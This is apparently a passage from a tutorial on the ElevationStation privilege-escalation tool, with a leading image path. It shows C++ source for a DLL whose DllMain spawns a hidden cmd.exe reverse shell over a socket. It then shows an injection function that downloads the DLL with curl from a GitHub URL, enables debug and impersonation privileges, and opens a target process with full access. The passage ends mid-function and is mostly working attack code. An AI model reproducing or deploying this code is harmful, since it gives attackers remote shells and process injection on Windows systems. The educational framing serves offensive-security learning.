 ```c++
	ZeroMemory(&si, sizeof(si));
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi;
	ZeroMemory(&pi, sizeof(pi));
	si.dwFlags = STARTF_USESTDHANDLES;
	//si.wShowWindow = SW_HIDE;
	si.hStdInput = (HANDLE)wSock;
	si.hStdOutput = (HANDLE)wSock;
	si.hStdError = (HANDLE)wSock;
	TCHAR cmd[] = TEXT("C:\\WINDOWS\\SYSTEM32\\CMD.EXE");
	CreateProcess(NULL, cmd, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
	//WaitForSingleObject(pi.hProcess, INFINITE);
	//CloseHandle(pi.hProcess);
	//CloseHandle(pi.hThread);
	//WSACleanup();
}



BOOL APIENTRY DllMain (HANDLE hdll, DWORD dwReason, LPVOID lpReserved){
    switch(dwReason){
    case DLL_PROCESS_ATTACH:
        socketfunc();


    }
    return TRUE;
}
```

Now, let's proceed!  We have our compiled DLL that we will use to initiate our reverse shell.  We can now visit the **D11Inj3ct0r** function in our ElevationStation code to see how we carry out the injection:

```c++

bool D11Inj3ct0r(DWORD pid)
{
    HMODULE hMods[1024];
    //HANDLE hProcess;
    DWORD cbNeeded;
    unsigned int i;

    cout << "[+] Downloading your dll from the elevationstation repo for the rev sh311 now!\n";
    WinExec("curl -# -L -o \"c:\\users\\public\\mig2.dll\" \"https://github.com/g3tsyst3m/elevationstation/raw/main/d11inj3ction_files/mig2.dll\"", 0);
    Sleep(3000);
    //enable ALL necessary privs!!!
    setProcessPrivs(SE_DEBUG_NAME);
    setProcessPrivs(SE_IMPERSONATE_NAME);
    //priv enable routine complete
    //BOOL bRet;
    
        HANDLE processHandle;
        PVOID remoteBuffer;
     
        wchar_t dllPath[] = TEXT("C:\\Users\\public\\mig2.dll");

        printf("[+] Opening process handle for PID: %i\n", pid);
        processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
        if (!processHandle)
        {
            printf("[!] Need more priveleges to access...Error Code: %d\n", GetLastError());
            exit(0);
```